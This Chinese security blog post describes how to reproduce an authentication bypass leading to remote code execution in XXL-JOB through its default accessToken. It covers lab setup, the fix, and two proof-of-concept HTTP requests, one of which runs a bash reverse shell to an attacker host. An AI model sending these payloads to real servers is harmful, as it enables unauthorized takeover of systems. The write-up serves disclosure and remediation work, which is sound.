 #  XXL-JOB默认accessToken身份认证绕过RCE   
原创 Arvin  Timeline Sec   2024-07-05 18:30  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：Arvin@Timeline Sec 本文字数：2867阅读时长：2～4min 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
XXL-JOB 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。  
## 0x02 漏洞概述  
  
XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是随机生成的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。  
## 0x03 影响版本  
  
XXL-JOB <= 2.4.0  
## 0x04 环境搭建  
  
**Docker方式构建**  
  
**1.拉取镜像**  
  
docker pull xuxueli/xxl-job-admin:2.4.0  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFjgUcvdEPF1bZMrxQl7YYr7t8lJcVXdw8icX1vYMOH4RA2hv2jXsUMkg/640?wx_fmt=png&from=appmsg "")  
  
**2.创建数据库**  
  
docker pull mysql  
  
docker run -d  --name mysql -e MYSQL_ROOT_PASSWORD=root -p 13306:13306 mysql  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVF55UiccWD9NFOE2nsseruj0NCy44UVPMznHOyoD9urfRjq3mu9ndzib7g/640?wx_fmt=png&from=appmsg "")  
  
**3.用navicat连接数据库并运行xxl-job.sql文件**  
  
xxl-job.sql下载地址：https://github.com/xuxueli/xxl-job/tree/master/doc/db  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFusO4B7mDpNxv0N0XVT7AIXboET73q2Y1oq7wR18eGGWNcZ4BNbSLkg/640?wx_fmt=png&from=appmsg "")  
  
打开navicat连接数据库，新建一个名称叫xxl-job名称的数据库，进入该xxl-job名称数据库，并执行xxl-job.sql文件  
  
**4.创建xxl-job容器并启动**  
```
docker run --privileged=true -e PARAMS="--spring.datasource.username=root --spring.datasource.password=123456 --spring.datasource.url=jdbc:mysql://yourip:13306/xxl_job?useUnicode=true&characterEncoding=UTF-8&autoReconnect=true&serverTimezone=Asia/Shanghai" -p 8080:8080 -v /home/xxl-job/logs:/data/applogs --name xxl-job-admin -d xuxueli/xxl-job-admin:2.4.0

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFB5MpxxIFhKDxTtFNFmoArgJ06QHcCLGDsMyrVKZwS17nN7hn4KNcAA/640?wx_fmt=png&from=appmsg "")  
  
访问http://yourip:8080/xxl-job-admin/toLogin  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFUicnqPR4M7NKChyTqicGFRDdZaw3HDBW2uRzaTOmf7t3YMHY7pMjgpAQ/640?wx_fmt=png&from=appmsg "")  
  
**执行器搭建**  
  
**1.下载Source并编译成jar包**  
  
https://github.com/xuxueli/xxl-job  
  
使用idea或maven编译  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFUs5dV2V9ZYqoGsqZJRQ3V7RuRjbOelts44Emnb6vXpHDibkmOsS8RvA/640?wx_fmt=png&from=appmsg "")  
  
**2.下载application.properties并根据实际情况修改**  
  
 wget https://github.com/xuxueli/xxl-job/raw/2.4.0/xxl-job-executor-samples/xxl-job-executor-sample-springboot/src/main/resources/application.properties  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFoXuCD9alEfEWeqfDbgH7OAV3QicC5xdezqNIGBlicfnSfUuPu9Rd4DFg/640?wx_fmt=png&from=appmsg "")  
  
**3.运行**  
  
nohup java -jar ./xxl-job-executor-sample-springboot.jar --spring.config.location=./application.properties &  
  
**4.验证**  
  
执行器中管理中对应节点已经自动注册  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVF0I5IlUZ9J5kSYzM1JxjktYF5wFa4iatYw8CsEWq1Baaia7243ic1KlOkw/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
**POC：**  
```
POST /run HTTP/1.1
Host: 
XXL-JOB-ACCESS-TOKEN: default_token
Content-Length: 326
 
{
"jobId":1,
"executorHandler":"demoJobHandler",
"executorParams":"demoJobHandler",
"executorBlockStrategy":"COVER_EARLY",
"executorTimeout":0,
"logId":1,
"logDateTime":1710864010,
"glueType":"GLUE_SHELL",
"glueSource":"ping xxxx.dnslog.cn",
"glueUpdatetime":1710864010,
"broadcastIndex":0,
"broadcastTotal":0
}

```  
  
**DNSLog**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVF6FH4ZRYxwvQ0C5l5QeKuJYIpKPrCUHJhGH7ASYJSDFib4UlqNETp4sg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFJw1mhibOnjAO3ibqyxWlXfiaJ11MgFUWzSjyCejkib6xfgDNe1So8aGtYQ/640?wx_fmt=png&from=appmsg "")  
  
**Getshell**  
  
**POC：**  
```
POST /run HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: 
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default_token
Upgrade-Insecure-Requests: 1
Content-Length: 375


{
"jobId": 2,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "SERIAL_EXECUTION",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586373637819,
"glueType": "GLUE_SHELL",
"glueSource": "bash -i >& /dev/tcp/ip/4444 0>&1",
"glueUpdatetime": 1586693836766,
"broadcastIndex": 0,
"broadcastTotal": 0
}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVFCANMfSiaZ5N1iaAlomJYTRxlyZicxiaweYu4MfzBiciaic4jKNAhW8ibymxntg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgdKDXibsp8m2BcoiboQcFvVF6qcpoTyuw7J4KXiaYnjLdtPLvHeVOibMV5TbmctVY5HFtqTnCoQX7CpA/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值。  
## 参考链接  
  
https://github.com/xuxueli/xxl-jobhttps://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89  
## Checklist  
  
默认账号密码admin/123456executor未授权访问命令执行api未授权Hessian2反序列化  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】获取官方直播精品课程详情  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就收藏起来吧！  
  
顺便点个赞和在看  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
